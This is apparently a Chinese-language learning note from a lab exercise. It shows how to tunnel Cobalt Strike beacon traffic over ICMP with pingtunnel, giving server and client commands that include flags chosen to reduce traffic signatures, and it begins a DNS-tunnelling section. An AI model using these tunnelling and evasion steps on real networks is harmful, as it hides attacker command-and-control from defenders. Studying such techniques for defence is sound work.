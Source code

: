 30min  上线  使用工具 pingtunnel

./pingtunnel -type server

工具将本地tcp流量用自己的6666端口流量转发到192.168.139.141:7777 上面（将tcp流量封装成icmp转发）

pingtunnel -type client -l :6666 -s 192.168.139.141 -t 192.168.139.141:7777 -tcp 1 -noprint 1 -nolog 1   后门生成绑定6666，上线监听7777，上线找7777。			这个工具就是封装作用  （ 1 -noprint 1 -nolog 1  就是减少流量特征的，不打印信息）

下面本应该是在webshell页面执行，但为了省事，就直接在目标机web上进行操作：

上传工具pingtunnel，然后在能和目标机通讯的机器上 ，（这里是kali）创建一个监听：

![1732524394790](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732524394790.png)

执行转发命令-----前面几次没有成功是因为web机的出站icmp没有开：、

![1732525019259](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732525019259.png)

成功接收到：

![1732524956671](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732524956671.png)

生成2个监听器：1 、2

![1732525288157](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732525288157.png)

下面生成exe、要选择stageless的，如果选择（E）上面的那个模式，无法上线（踩坑）：这里exe的监听器为1

![1732526027873](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732526027873.png)

执行66666.exe则就反射到本地6666来上线，而6666又经过一系列的转发成icmp到7777才出去，2监听器监听7777成功收到web机请求上线。

![1732526222224](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732526222224.png)

然后用wireshark监听流量发现，web机过来的全部是icmp协议的数据包（http----->icmp封装成功）：

![1732526418330](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732526418330.png)

隧道一关闭、cs就掉线：

![1732526561513](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732526561513.png)

### dns

42min  使用DNS技术实现上线----使用C2自带工具。44min 关闭icmp通讯出站。打开dns出站规则。这里上线需要一个dns的域名网站来上线dns的exe，这就是dns协议实现上线

关闭icmp出站协议，打开dns协议

![1732526830482](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1732526830482.png)

下面还是本应该在webshell操作。我懒的上线get，就直接在主机上演示：

这里还得需要一个dns的域名。省略这个

### msb:

